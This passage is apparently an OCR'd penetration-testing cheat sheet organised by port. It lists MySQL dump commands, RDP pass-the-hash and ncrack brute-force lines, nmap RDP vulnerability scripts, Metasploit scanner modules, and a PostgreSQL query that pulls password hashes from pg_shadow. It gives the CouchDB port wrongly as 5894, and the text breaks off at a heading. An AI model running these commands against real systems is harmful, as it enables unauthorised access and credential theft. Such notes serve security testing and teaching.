         -   **MySQL important commands**

            -   show databases;

            -   use \[database name\]

            -   show tables;

            -   select \* from \[table\_name\]

            -   mysqldump -u root -p Password123! \--all-databases \> db\_backup.sql    -\> dump all databases

-   **Rdp port 3389 open**

    -   **Connecting with known credentials**

        -   rdesktop -u \[username\] \[ip\]

        -   rdesktop -d \[domain\] -u \[username\] -p \[password\] \[ip\]

        -   xfreerdp /u:\[domain\\\]\<username\> /p:\[password\] /v: \[ip\]

        -   xfreerdp /u:\[domain\\\]\<username\> /pth:\[hash\] /v: \[ip\]

    -   **Scan with nmap**

        -   nmap \--script \"rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info\" -p 3389 -T4 \[ip\]

    -   **Bruteforce login**

        -   ncrack -vv \--user administrator -P passwords.txt [rdp://192.168.1.10,CL]=1

    -   **Metasploit**

        -   auxiliary/scanner/rdp/ms12\_020\_check

        -   auxiliary/scanner/rdp/rdp\_scanner

-   **Postgresql port 5432 , 5433 open**

    -   PostgreSQL is a database that comes with MacOS X Lion as a default standard database.Also according to wikipedia the majority of Linux distributions have the PostgreSQL in the supplied packages.

    -   Metasploit

        -   Bruteforce login

            -   Use auxiliary/scanner/postgres/postgres\_login

    -   Login

        -   Now that we have a valid username and password we can use that to connect to the database by using a psql client.The first query that we want to execute is the ***select usename, passwd from pg\_shadow; ***because it will return to us the password hashes of the database from the **pg\_shadow** table.

-   **Couchdb port 5894 open**

    -   CouchDB is a document-oriented database and within each document fields are stored as key-value maps. Fields can be either a simple key/value pair, list, or map. Each document that is stored in the database is given a document-level unique identifier (\_id) as well as a revision (\_rev) number for each change that is made and saved to the database.

    -   **Automatic enum**
